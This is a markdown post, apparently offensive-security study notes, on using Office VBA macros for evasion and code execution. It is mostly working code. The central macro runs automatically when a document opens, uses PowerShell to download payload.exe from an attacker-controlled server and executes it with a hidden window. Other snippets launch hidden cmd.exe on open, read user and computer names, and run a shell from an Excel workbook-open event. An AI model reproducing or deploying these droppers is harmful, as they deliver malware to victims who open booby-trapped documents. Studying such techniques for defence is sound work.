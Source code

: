 ```yaml
---
description: >-
  VBA Office Macro
title: VBA Office Macro          # Add title here
date: 2025-05-19 08:00:00 -0600                           # Change the date to match completion date
categories: [22 Evasion Techniques, VBA Office Macro]          # Change Templates to Writeup
tags: [evasion, office macro, vba]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png          # Add infocard image here for post preview image
---
```


Technique to use VBA to launch an external application like cmd.exe. The first and simplest technique leverages the VBA Shell function, which takes two arguments. The first is the path and name of the application to launch along with any arguments. The second is the WindowStyle, which sets the program's window style. As attackers, the vbHide value or its numerical equivalent (0) is the most interesting as it will hide the window of the program launched.


### Powershell with VBA RCE
```c
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
'   Download the file from our web server
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.201/payload.exe', 'payload.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path & "\payload.exe"
    Wait (3)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

### Simple cmd.exe execution
In the example below, as soon as the victim enables macros, we will launch a command prompt with a hidden window.
```c
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub
```
### ENVIRONMENT$ Variable usage
```c
Sub PrintUserAndComputerName()
    Dim i As Integer
    Dim userName As String
    Dim computerName As String

    userName = Environ$("USERNAME")
    computerName = Environ$("COMPUTERNAME")

    For i = 1 To 5
        Debug.Print "User: " & userName & " | Computer: " & computerName
    Next i
End Sub
```
This is only shown on VBA Debugger, to See the Output:
- Press Alt + F11 to open the VBA Editor.
- Press Ctrl + G to open the Immediate Window.
- Run the macro again (F5).

### Executing cmd.exe using Excel Sheet Macro
```c
Private Sub Workbook_Open()
    Shell "cmd.exe", vbNormalFocus
End Sub
```
